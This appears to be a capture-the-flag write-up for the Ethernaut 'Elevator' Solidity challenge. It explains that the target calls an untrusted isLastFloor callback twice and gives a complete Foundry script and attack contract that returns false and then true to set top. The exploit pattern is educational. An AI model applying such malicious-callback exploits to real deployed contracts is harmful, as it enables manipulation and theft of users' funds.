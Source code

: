 # Elevator   
Our mission is to set the `top` variable to `true` in the `Elevator` contract.  
The Elevator contract has an interesting vulnerability in its `goTo` function. Let's analyze how it works:

The contract calls `isLastFloor` twice in the `goTo` function. It expects the caller to implement the Building interface
Most importantly, there's no protection against the `isLastFloor`  function returning different values for the same input.

The key insight is that even though `isLastFloor` should logically return the same value for the same floor number, there's nothing in the code enforcing this. We can exploit this by making our implementation return different values on consecutive calls.
We need to create a malicious contract that implements the Building interface. Our implementation of isLastFloor will:

1. First return false to pass the initial check
2. Then return true to set the top variable

Here's the complete solution with the attack contract and automation script:
 
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
    Attack attack;

    function run() public {
        vm.startBroadcast();
        attack = new Attack( /* Your instance address */ );
        attack.solve();
        vm.stopBroadcast();
    }
}

contract Attack {
    bool top;
    address private immutable i_instance;

    constructor(address instance) {
        i_instance = instance;
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        bool aux = top;
        top = !top; // Switches the value of top.
        return aux;
    }

    function solve() external {
     i_instance.call(abi.encodeWithSignature("goTo(uint256)", 1));
    }
}
```

